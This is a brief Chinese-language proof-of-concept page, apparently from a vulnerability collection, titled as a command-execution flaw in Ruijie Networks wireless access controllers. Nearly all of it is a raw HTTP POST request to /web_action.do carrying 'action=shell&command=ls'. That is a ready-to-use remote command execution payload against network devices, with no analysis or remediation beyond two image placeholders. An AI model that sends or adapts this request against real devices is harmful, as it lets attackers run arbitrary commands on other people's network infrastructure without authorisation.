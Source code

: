 ## 锐捷网络无线AC命令执行

![image](../../images/0ce6bf97-7771-4cd9-aebe-d7e3b9670ddc.png)

## poc
```
POST /web_action.do HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

action=shell&command=ls
```

![image](../../images/1e5644da-6ac6-4663-bf23-30371b69af52.png)
